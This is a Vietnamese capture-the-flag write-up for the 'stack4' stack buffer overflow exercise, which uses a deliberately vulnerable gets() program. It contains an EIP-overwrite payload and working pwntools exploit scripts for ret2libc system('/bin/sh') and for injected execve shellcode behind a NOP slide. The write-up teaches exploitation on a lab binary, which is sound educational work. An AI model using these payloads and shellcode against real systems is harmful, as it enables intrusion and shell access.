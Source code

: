# stack4

## Description

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

Bài này cũng không có gì khó. Ghi địa chỉ hàm win vào EIP là được.
![cyclic](cyclic.png)

Mình sử dụng pwndbg + cyclic để tìm ra padding.
Xem qua hàm main nhé

```ASM (intel syntax)
   0x08048408 <+0>:     push   ebp
   0x08048409 <+1>:     mov    ebp,esp
   0x0804840b <+3>:     and    esp,0xfffffff0
   0x0804840e <+6>:     sub    esp,0x50
   0x08048411 <+9>:     lea    eax,[esp+0x10]
   0x08048415 <+13>:    mov    DWORD PTR [esp],eax
   0x08048418 <+16>:    call   0x804830c <gets@plt>
   0x0804841d <+21>:    leave  
   0x0804841e <+22>:    ret
```

## Solution

### ghi đè EIP

Dùng Gdb hoặc objdump ta có địa chỉ của hàm win: `0x080483f4`

payload: `python -c 'print "a"*76 +"\xf4\x83\x04\x08"' | ./stack4`

![solution](solution.png)

## spawn shell

vẫn tương tự các bài trước :D

### system()

```python
#!/usr/bin/python3
from pwn import *

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 76*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

p = process('./stack4')
p.sendline(payload)
p.interactive()
```

![shell](shell.png)

### inject shellcode

```python
#!/usr/bin/python3
from pwn import *

padding = b'a'*76
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process('./stack4')
p.sendline(payload)
p.interactive()
```
